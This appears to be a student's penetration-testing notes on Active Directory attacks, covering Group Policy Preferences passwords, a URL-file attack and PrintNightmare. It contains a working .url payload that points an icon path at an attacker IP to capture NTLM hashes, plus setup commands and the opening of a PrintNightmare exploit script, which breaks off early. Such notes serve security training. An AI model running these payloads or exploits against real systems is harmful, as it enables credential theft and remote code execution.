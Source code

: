 **Overview**:
- group policy preferences allowed admins to create policies using embedded credentials
- these credentials were encrypted and placed in a "cPassword"
  the key was accidentally released
- patched in MS14-025, but doesn't prevent previous uses

❗️ `smb_enum_gpp` >> metasploit module, always check for gpp

### Active - Hackthebox
- exploiting gpp
- writeup: https://shishirsubedi.com.np/htb/active/
once gpp cracked >> can use for kerberoasting

# URL File Attacks
Active Directory Attacks - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)

We can dump quick file and cause hashes to load:
```html
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah 
IconFile=\\x.x.x.x\%USERNAME%.icon <!-- attacker IP, to point hashes back to us -->
IconIndex=1
```

*These attacks require compromised user account or exposed file share*

# PrintNightmare CVE-2021-1675
*need compromised account*
Takes advantage of printer spooler, Attacks:
- cube0x0 RCE - [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675) 
	- what we use for this course
- calebstewart LPE - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)
Mitigation = disable print spooler service

Install
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
Save code into file >> CVE-2021-1675.py
```python
#!/usr/bin/python3
from impacket.dcerpc.v5 import rprn
from impacket.dcerpc.v5 import transport
from impacket.dcerpc.v5.dtypes import NULL
from impacket.structure import Structure
import argparse
import sys
import pathlib

#https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/2825d22e-c5a5-47cd-a216-3e903fd6e030
class DRIVER_INFO_2_BLOB(Structure):
    structure = (
        ('cVersion','<L'),
        ('NameOffset', '<L'),
```